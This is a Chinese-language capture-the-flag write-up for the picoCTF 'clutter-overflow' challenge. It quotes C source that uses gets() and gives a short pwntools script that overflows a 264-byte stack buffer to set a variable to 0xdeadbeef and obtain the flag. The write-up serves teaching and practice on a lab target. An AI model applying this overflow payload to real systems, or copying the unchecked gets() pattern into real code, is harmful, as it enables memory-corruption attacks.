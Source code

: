 # [Binary] clutter-overflow

Clutter, clutter everywhere and not a byte to use.

```
nc mars.picoctf.net 31890
```

https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall.c

https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall

## WP

首先打开题给C文件，看到关键信息如下。

```c
#define SIZE 0x100
#define GOAL 0xdeadbeef

...

gets(clutter);

if (code == GOAL) {
  printf("code == 0x%llx: how did that happen??\n", GOAL);
  puts("take a flag for your troubles");
  system("cat flag.txt");
} else {
  printf("code == 0x%llx\n", code);
  printf("code != 0x%llx :(\n", GOAL);
}
```

总而言之，我们的输入会被放置在一块名为`clutter`的缓存中，而程序一旦检测到`code`变量为`0xdeadbeef`时就会回显Flag。

因此我们的任务就是将`clutter`缓存溢出到`code`变量，并给`code`变量赋值`0xdeadbeef`。

将可执行文件进行反编译，发现缓冲区的实际大小其实是264个字节。

![](clutter-overflow.assets/1.png)

接下来的任务就很简单了，先用264个无意义字符填充缓冲区，然后给`code`赋值。脚本如下：

```python
from pwn import *

conn = remote('mars.picoctf.net', 31890)
payload = b'a' * 264 + b'\xef\xbe\xad\xde'
# payload = b'a' * 264 + p64(0xdeadbeef)
conn.sendline(payload)
conn.interactive()
```

注意，由于payload中存在不可打印字符，我们可以选择直接发送字节串（`b''`）或使用pwntools的`p64()`函数进行封装。

由于靶机中整型变量存储方式是小端序，因此在发送字节串时需要将目标值以十六进制数为基本单位进行逆序。

直接使用`p64()`函数的话会自动进行处理，不需要逆序。

![](clutter-overflow.assets/2.png)

发送payload后成功拿到Flag。

